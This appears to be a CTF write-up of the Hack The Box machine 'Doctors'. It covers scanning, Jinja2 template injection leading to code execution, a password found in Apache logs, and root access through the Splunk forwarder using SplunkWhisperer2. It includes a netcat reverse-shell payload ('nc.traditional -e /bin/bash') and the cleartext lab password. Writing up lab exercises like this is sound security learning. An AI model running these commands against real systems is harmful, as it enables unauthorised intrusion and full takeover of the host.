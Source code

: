 ```yaml
---
layout: post
title: HTB Doctors
categories: [HTB, OSCP]
---
```


HI all. Doctors machine retired today so lets look into it.

![](/images/doctors/logo.jpeg)

We start with simple nmap scan

```bash
nmap -sC -sV -oA nmap/inital 10.10.10.209
# Nmap 7.91 scan initiated Fri Feb  5 23:39:30 2021 as: nmap -sC -sV -oA nmap/inital 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.15s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 23:40:26 2021 -- 1 IP address (1 host up) scanned in 55.97 seconds
```

We have few ports open:
* 22 for SSH
* 80 for Apache webserver
* 8089 for splunkd

Also run full nmap scan but it did not find any extra ports. I quickly look into splunk but all exploits require authentication so I moved to web site on port 80

![](/images/doctors/website.png)

At bottom we can see that there is an email address *info@doctors.htb*. Added this to /etc/hosts and reload page. I was greeting with login and password portal. There was an option for register account so i quickly register. 

![](/images/doctors/register.png)

And i was in doctor secure messaging. Start to get feel for application. Look into my account. I was able to create new message

![](/images/doctors/message.png)

I was getting nowhere so i lunch gobuster to look some interesting points.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://doctors.htb -t 25 -k | tee gobuster 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://doctors.htb
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/06 00:20:25 Starting gobuster
===============================================================
/login (Status: 200)
/archive (Status: 200)
/register (Status: 200)
/home (Status: 302)
/account (Status: 302)
/logout (Status: 302)
/reset_password (Status: 200)
/server-status (Status: 403)
```

Archive looks interesting. When I visited this website it was blank. I also look for source of this website to my surprise i was title of my message I created.  

![](/images/doctors/archive-title.png)

I tried to XXE but that did not work very well. THem i tried SSTI with simple bracket trick

![](/images/doctors/jinja.png)

Look into archive again 

![](/images/doctors/jinja-archive.png)

Bingo it give us 25 which mean we have some kind of RCE. I look for reverse shell in payload all the thing and try simple python one. I had to change IP address and commands i want to run

![](/images/doctors/reverse-shell.png)

I visited shell. 

```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.209] 49068
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
/usr/bin/python3.8 -c "import pty;pty.spawn('/bin/bash')"
web@doctor:~$ 
```

I had shell. I also member of adm group. I had to google what that actually mean. Adm group give you access to logs in most cases...

I start looking for logs and found backup in apache2 folder in /var/logs. Run quickly command with grep looking for password and that give me one result back

```bash
web@doctor:~$ cd /var/log
cd /var/log
web@doctor:/var/log$ cd apache2
cd apache2
web@doctor:/var/log/apache2$ ls
ls
access.log        access.log.3.gz  error.log        error.log.3.gz
access.log.1      access.log.4.gz  error.log.1      error.log.4.gz
access.log.10.gz  access.log.5.gz  error.log.10.gz  error.log.5.gz
access.log.11.gz  access.log.6.gz  error.log.11.gz  error.log.6.gz
access.log.12.gz  access.log.7.gz  error.log.12.gz  error.log.7.gz
access.log.13.gz  access.log.8.gz  error.log.13.gz  error.log.8.gz
access.log.14.gz  access.log.9.gz  error.log.14.gz  error.log.9.gz
access.log.2.gz   backup           error.log.2.gz   other_vhosts_access.log
web@doctor:/var/log/apache2$ cat backup | grep password
cat backup | grep password
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=******" 500 453 "http://doctor.htb/reset_password"
web@doctor:/var/log/apache2$
```

I tried this password as shaun because that only one user here. it worked. As we know splunk forwarded is there on port 8089 and we have creds there is privilege escalation option for us. I downloaded [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)

```bash
git clone https://github.com/cnotin/SplunkWhisperer2.git 
cd SplunkWhisperer2/PySplunkWhisperer2 
pip install -r requirements.txt 
```

There is a option to run remote attack and start listener.

```bash
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.24 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash 10.10.14.24 9001" --port 8089
```

```bash
nc -nlvp 9001
listening on [any] 9001 ...
id
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.209] 36070
uid=0(root) gid=0(root) groups=0(root)
```

I got reverse shell as admin user. Thanks for reading. 








